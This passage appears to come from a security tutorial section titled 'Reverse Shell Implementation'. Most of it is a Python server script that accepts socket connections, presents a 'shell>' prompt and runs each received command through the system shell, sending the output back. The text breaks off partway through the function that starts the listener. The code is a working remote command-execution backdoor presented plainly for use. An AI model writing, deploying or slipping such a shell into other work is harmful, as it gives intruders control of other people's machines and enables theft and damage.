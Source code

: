 ### 1.2 Reverse Shell Implementation

This section provides a basic reverse shell implementation.

#### Server Code (server.py)

```python
import socket
import threading
import subprocess

def handle_client(client_socket):
    """
    Handles individual client connections
    """
    print("[*] New connection")

    while True:
        try:
            # Send prompt
            client_socket.send("shell> ".encode())

            # Receive command
            command = client_socket.recv(1024).decode().strip()

            if not command:
                continue

            if command.lower() == 'exit':
                break

            # Execute command
            output = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True
            )

            # Prepare response
            response = output.stdout + output.stderr
            if not response:
                response = "Command executed successfully\n"

            # Send response
            client_socket.send(response.encode())

        except Exception as e:
            print(f"[!] Error: {e}")
            break

    print("[*] Closing connection")
    client_socket.close()

def start_server():
    """
    Starts the reverse shell server
    """
    HOST = '127.0.0.1'
    PORT = 4444

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
            server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
```